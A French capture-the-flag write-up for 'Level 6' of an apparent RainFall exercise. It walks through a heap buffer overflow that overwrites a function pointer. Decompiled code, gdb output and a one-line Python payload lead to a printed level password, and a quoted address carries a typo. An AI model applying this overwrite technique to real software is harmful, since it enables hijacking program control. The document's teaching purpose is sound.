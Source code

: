# **Level 6**

Pour le `level6` on decompile l'executable

```
void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2)
{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```

Alors le code alloue deux pointeur, le premier est remplie par l'entree de l'utilisateur et le second permet de stocker l'addresse de la fonction `m` appele a la fin

On comprend tres vite qu'il va falloir reecrire la valeur de `*ppcVar1` pour mettre la fonction `n` a la place de `m` grace au `strcpy` qui n'est pas protegé

Pour cela analysons le code assembleur

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

En mettant un breakpoint dans `gdb` sur les deux appelle a malloc, on trouve leur position dans la memoire

```
(gdb) b *0x08048491
Breakpoint 1 at 0x8048491
(gdb) b *0x080484a1
Breakpoint 2 at 0x80484a1
(gdb) run aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Starting program: /home/user/level6/level6 aaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x08048491 in main ()
(gdb) x $eax
0x804a008:      0x00000000
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484a1 in main ()
(gdb) x $eax
0x804a050:      0x00000000
(gdb)
```

> Donc le premier est en `0x08044a008` et le second en `0x08044a050` soit `72` de difference

On recupere l'addresse de n

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

On peux donc construire notre payload

```
level6@RainFall:~$ ./level6 $(python -c "print'a'*72+'\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

> ### NEXT : [Level 7](/level7/resources/README.md)
